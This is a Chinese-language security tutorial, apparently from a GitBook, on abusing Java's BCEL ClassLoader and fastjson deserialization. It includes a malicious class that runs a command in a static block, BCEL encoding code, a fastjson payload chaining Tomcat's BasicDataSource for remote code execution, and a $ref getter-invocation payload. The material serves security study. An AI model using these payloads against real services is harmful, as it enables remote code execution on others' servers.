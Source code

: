 # 0x01 What Is BCEL

BCEL的全名是Apache Commons BCEL，属于Apache Commons项目下的一个子项目，BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。相较Commons Collections，BCEL被包含在原生JDK中，更容易被利用。

> BCEL Classloader在 JDK < 8u251之前是在rt.jar里面。
>
> 在Tomcat中也会存在相关的依赖
>
> tomcat7：org.apache.tomcat.dbcp.dbcp.BasicDataSource
>
> tomcat8+：org.apache.tomcat.dbcp.dbcp2.BasicDataSource
>

`com.sun.org.apache.bcel.internal.util.ClassLoader`重写了Java内置的`ClassLoader#loadClass()`方法，会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。可以理解为是传统字节码的HEX编码，再将反斜线替换成`$`。默认情况下外层还会加一层GZip压缩。

# 0x02 Best Practice

编写恶意类

```java
public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {}
    }
}
```

测试：

```java
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Test {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
        // Class.forName("$$BCEL$$" + encode, true, new ClassLoader());
        new ClassLoader().loadClass("$$BCEL$$" + encode).newInstance();
    }
}
```

* `Repository`用于将一个`Java Class`先转换成原生字节码（也可以用javac命令）

* `Utility`用于将原生的字节码转换成BCEL格式的字节码

# 0x03 BCEL + fastjson

fastjson网传的三条利用链如下：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

1. 常规的Java字节码的执行，但是需要开启`Feature.SupportNonPublicField`，较鸡肋
2. 利用JNDI注入，但需要服务器出网
3. 不用出网也不用开启`Feature.SupportNonPublicField`

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>8.5.45</version>
</dependency>
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.23</version>
</dependency>
```

调用链`getConnection()->createDataSource()->createConnectionFactory()->createDriver()`

![image-20230125194234991](../.gitbook/assets/image-20230125194234991.png)

`Class.forName`第二个参数`initial`为true时，类加载后将会直接执行`static{}`块中的代码。

`driverClassLoader`和`driverClassName`都可以通过fastjson控制

> {    
>
> ​	{        
>
> ​		"aaa": {                
>
> ​			"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",                
>
> ​			"driverClassLoader": {                    
>
> ​				"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"                
>
> ​			},                
>
> ​			"driverClassName": "$$BCEL$$$l$8b$I$A$..."        
>
> ​		}    
>
> ​	}: "bbb" 
>
> }

![image-20230125194956235](../.gitbook/assets/image-20230125194956235.png)

实际上面的getConnection不满足fastjson对自动调用getter的要求

> 满足条件的getter
>
> * 函数名长度大于等于4
> * 非静态方法
> * 以get开头且第4个字母为大写
> * 无参数
> * 返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger

在`{"@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……}` 这一整段外面再套一层`{}`，这样的话会把这个整体当做一个JSONObject，会把这个当做key，值为bbb

将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法（因为key一定要是String类型）

而且JSONObject是Map的子类，当调用`toString`的时候，会依次调用该类的getter方法获取值。所以会调用到`getConnection`方法

![image-20230125201059313](../.gitbook/assets/image-20230125201059313.png)

> 当fastjson>=1.2.36的时候，可以使用`$ref`方式调用getter
>
> ref是fastjson特有的JSONPath语法，用来引用之前出现的对象
>
> ```java
> public class test {
>     private String cmd;
> 
>     public void setCmd(String cmd) {
>         System.out.println("seter call");
>         this.cmd = cmd;
>     }
> 
>     public String getCmd() throws IOException {
>         System.out.println("geter call");
>         Runtime.getRuntime().exec(cmd);
>         return cmd;
>     }
> }
> ```
>
> ```java
> public class ref_fastjson {
>     public static void main(String[] args) {
>         ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
>         String payload = "[{\"@type\":\"com.demo.fastjson.test\",\"cmd\":\"calc\"},{\"$ref\":\"$[0].cmd\"}]";
>         JSON.parse(payload);
>     }
> }
> ```

